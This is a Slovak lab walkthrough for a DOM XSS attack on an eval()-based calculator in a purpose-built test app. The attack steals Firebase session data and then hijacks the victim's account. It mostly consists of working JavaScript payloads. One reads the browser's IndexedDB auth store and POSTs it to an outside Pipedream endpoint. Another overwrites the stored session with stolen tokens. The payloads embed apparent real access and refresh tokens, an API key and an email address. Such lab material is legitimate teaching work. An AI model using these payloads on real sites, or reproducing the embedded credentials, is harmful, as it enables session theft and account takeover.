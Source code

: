 # Document object model cross site scripting (DOM XSS)

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- V tomto útoku využijeme zraniteľnú funkciu eval(), ktorá vyhodnotí akúkoľvek hodnotu, ktoré je vložená ako argument. Vie vypočítavať rôzne rovnice, preto je ideálnym riešením pre primitívnu kalkulačku.
- Každopádne tým, že vyhodnotí akúkoľvek hodnotu tak vyhodnotí aj akýkoľvek škodlivý kód, ktorý ako argument vložíme.
- Input s textom "Enter equation..." vyhodnocuje práve funkcia eval a predpokladáme, že na tomto mieste vzniká zraniteľnosť.
- Pokúsime sa o ukradnutie uživateľových dát z databázy prehliadaču. Do inputu vložíme nasledujúci kód.
    
          const request = window.indexedDB.open("firebaseLocalStorageDb");
            request.onsuccess = (event) => {
              const db = event.target.result;

              const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
              const objectStore = transaction.objectStore("firebaseLocalStorage");

              const getDataRequest = objectStore.getAll();

              getDataRequest.onsuccess = (event) => {

              const headers = new Headers();
              headers.append("Content-Type", "text/plain");

              const options = {
                method: "POST",
                headers,
                mode: "cors",
                body: JSON.stringify(event.target.result),
              };

              fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);
              }
            };
- Tento kód sprístupní lokálnu databázu indexDB prehliadača a umožní nám vytiahnúť hodnoty z databázy. Náš momentálne zaujíma tabuľka "firebaseLocalStorage", ktorú nastavuje
  externá API Firebase, ktorú používa aplikácia na autentifikáciu. Po jej vytiahnutí sa celý objekt odošle na náš vytvorený endpoint na Pipedreame (inštalácia link).
- Teraz sa môžeme odhlásiť a prihlásiť sa do lubovľného účtu, ktorý už máme vytvorený alebo si vytvoríme nový.
- Prejdeme znova na obrazovku s kalkulačkou a vložíme nasledujúci kód do rovnakého inputu.
        const request = window.indexedDB.open("firebaseLocalStorageDb");
        request.onsuccess = (event) => {
          const db = event.target.result;
  
          const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
          const objectStore = transaction.objectStore("firebaseLocalStorage");
  
          const data = {
            fbase_key:
              "firebase:authUser:AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg:[DEFAULT]",
            value: {
              uid: "RTejhfCWw0OAlHcoAj41Fy93ZJJ3",
              email: "mate@gmail.com",
              emailVerified: false,
              isAnonymous: false,
              providerData: [
                {
                  providerId: "password",
                  uid: "mate@gmail.com",
                  displayName: null,
                  email: "mate@gmail.com",
                  phoneNumber: null,
                  photoURL: null,
                },
              ],
              stsTokenManager: {
                refreshToken:
                  "AMf-vByIsfsiw-8vT6jzvFkIqMjZhSvTzJ16dCdww3w_Pk_9kwwfanAaW09W-DWc70KzKjxtp7Dq7aEPRImKkgLIHiCN4ROLsi5NBpvQrRSNGonNI-5wt_
                    9PHITM0bt5ZXSayEMzx7dRUHJdj8-lbwiflyUREJh3TUy-QLmoxyg3rY-G6B1Ff1OQPTv-VRFJGmp3GQ2dJ5Bl0hyBKiELNwcjKDTrVyRjPw",
                accessToken:
                  "eyJhbGciOiJSUzI1NiIsImtpZCI6ImJhNjI1OTZmNTJmNTJlZDQ0MDQ5Mzk2YmU3ZGYzNGQyYzY0ZjQ1M2UiLCJ0eXAiOiJKV1QifQ
      .eyJpc3MiOiJodHRwczovL3NlY3VyZXRva2VuLmdvb2dsZS5jb20vZGlwbG9tb3ZrYS10ZXN0LWFwcCIsImF1ZCI6ImRpcGxvbW92a2EtdGVzdC1hcHA
      iLCJhdXRoX3RpbWUiOjE3MTE3OTA0OTYsInVzZXJfaWQiOiJSVGVqaGZDV3cwT0FsSGNvQWo0MUZ5OTNaSkozIiwic3ViIjoiUlRlamhmQ1d3ME9BbE
      hjb0FqNDFGeTkzWkpKMyIsImlhdCI6MTcxMTc5MDQ5NiwiZXhwIjoxNzExNzk0MDk2LCJlbWFpbCI6Im1hdGVAZ21haWwuY29tIiwiZW1haWxfdmVyaWZ
      pZWQiOmZhbHNlLCJmaXJlYmFzZSI6eyJpZGVudGl0aWVzIjp7ImVtYWlsIjpbIm1hdGVAZ21haWwuY29tIl19LCJzaWduX2luX3Byb3ZpZGVyIjoicGFzc
      3dvcmQifX0.0Mp-T84dmzTpiAdVyhl68WV2qDvTZ78IHGYca5YpBgBx4A_m_YXoJ-IYBaTl-Yp-fXYzuKN3Vff0iqkNA5nVtUcOFfG1X157DrkE80gxp6e
      7ELg2jn_N6mF1Xw-jTSaJoAAsG8f3e_wHp-cfVqWyBNrcUTABrP8Hy_bv-iyUII60PZtjiu_oo7ObVFhoPEim82rlPJDLiwpPMos7qGEBsvw4-fKQvLPkR
      wkGbCf8bKt6Pn_jThtR9JPuhU_G2SlgppA0PuuLSyO8KViFoH4XgFMi9kyX3YU8vmg7O5bDwCYemLLpvQt4KY900_qQgxS2GnX89h_V-hNu_bGqQpL9Zg",
                expirationTime: 1711794096425,
              },
              createdAt: "1711388904315",
              lastLoginAt: "1711790496471",
              apiKey: "AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg",
              appName: "[DEFAULT]",
            },
          };
  
          objectStore.clear()
  
          const addDataRequest = objectStore.add(data);
  
          addDataRequest.onsuccess = (event) => alert("Success!");
        };
- Tento kód uloží, respektíve prepíše dáta o prihlásenom používateľovi. Objekt "dáta" nahradíme novým objektom, ktorý nám došiel na Pipedream. Zo skopírovaného objektu musíme zo všetkých atribútov odstrániť úvodzovky a nechať len pri hodnotách.
- Po kliknuti klávesy "Enter" sme si do prehliadača uložili prihlasovacie údaje iného používateľa a teraz sme prihlásený pod jeho prihalsovacimi údajmi.

- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/dom-xss-eval.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/dom-xss-eval.mp4)